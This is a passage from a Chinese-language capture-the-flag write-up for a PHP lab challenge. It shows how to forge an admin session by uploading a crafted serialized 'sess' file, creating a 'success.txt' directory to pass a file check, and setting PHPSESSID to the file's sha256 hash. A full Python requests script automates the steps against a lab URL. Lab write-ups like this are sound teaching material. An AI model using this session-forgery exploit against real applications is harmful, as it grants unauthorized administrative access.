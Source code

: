 ![image-20240909202812351](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409092028400.png)

成功伪造session，文件名设置不了，直接创建目录也符合条件，将`attr`设置为success.txt创建目录，再将sess上传到该目录下即可绕过判断

我们先**修改PHPSESSID为`432b8b09e30c4a75986b719d1312b63a69f1b833ab602c9ad5f0299d1d76a5a4`**

再给attr`传参为success.txt

```
direction=download&attr=success.txt&filename=sess_432b8b09e30c4a75986b719d1312b63a69f1b833ab602c9ad5f0299d1d76a5a4
```

![image-20240909203152178](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409092031675.png)



额外解：

使用脚本

```
import requests
import hashlib
# url需要修改为自己的靶场url
url = 'http://def2716d-d2f9-48a2-b51f-a85fe197b8ef.node5.buuoj.cn:81/'
# 上传伪造的session文件
files = {"up_file": ("sess", b'\x08usernames:5:"admin";')}
data = {
    'direction': 'upload',
    'attr': ''
}
req = requests.post(url, data=data, files=files)

# 获取session_id
session_id = hashlib.sha256(b'\x08usernames:5:"admin";').hexdigest()

# 在/var/babyctf/下创建success.txt目录
data1 = {
    'attr': 'success.txt',
    'direction': 'upload'
}
req1 = requests.post(url=url, data=data1, files=files)

# 通过伪造的session文件解析，获取flag
cookie = {
    'PHPSESSID': session_id
}

flag = requests.get(url, cookies=cookie)
print(flag.text)
```


